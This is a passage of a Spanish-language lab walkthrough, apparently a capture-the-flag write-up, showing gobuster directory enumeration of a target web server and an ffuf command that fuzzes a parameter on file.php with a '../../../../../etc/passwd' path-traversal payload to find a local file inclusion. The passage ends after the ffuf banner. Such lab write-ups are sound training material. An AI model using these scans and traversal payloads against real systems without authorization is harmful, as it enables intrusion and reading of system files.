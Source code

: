 ```shell
gobuster dir -u http://<IP>/php-scripts -w <WORDLIST> -x html,php,txt -t 50 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.81/php-scripts
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 7]
/file.php             (Status: 200) [Size: 0]
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
Progress: 346351 / 882244 (39.26%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 347250 / 882244 (39.36%)
===============================================================
Finished
===============================================================
```

Encontraremos algo interesante en esta parte, veremos un `file.php`, si entramos no veremos nada, pero vamos a probar a ver si tuviera algun parametro vulnerable en el que se pueda leer archivos del sistema `LFI`.

## FFUF

```shell
ffuf -u 'http://<IP>/php-scripts/file.php?FUZZ=../../../../../etc/passwd' -w <WORDLIST> -fs 0
```

Info:

```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.5.81/php-scripts/file.php?FUZZ=../../../../../etc/passwd
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
```